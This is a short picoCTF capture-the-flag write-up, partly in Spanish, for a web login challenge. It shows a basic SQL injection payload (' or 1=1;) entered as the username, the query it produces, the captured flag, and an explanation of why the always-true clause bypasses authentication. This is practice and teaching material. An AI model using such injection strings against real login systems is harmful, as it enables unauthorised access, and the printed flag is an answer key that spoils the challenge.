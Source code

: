 ## Descripcion.
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

## Pistas.
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
Try to think about how the website verifies your login.

## Solucion.
```bash 
username: ' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}

```

## Bandera.
picoCTF{s0m3_SQL_f8adf3fb}

## Notas Adicionales.
Para encontar esta bandera tuvimos que hacerle una inyeccion de sql a la pagina del login, en la parte del usuario escribimos la inyeccion para encontrar una vulnerabilidad en la base de datos (' or 1=1;) la cadena de texto ' or 1=1; representa una inyección SQL básica que utiliza una cláusula OR para alterar la consulta original y permitir que el atacante agregue su propia consulta SQL. La expresión booleana '1=1' es una expresión verdadera que siempre devuelve verdadero y se utiliza para asegurarse de que la consulta resulte en un valor verdadero.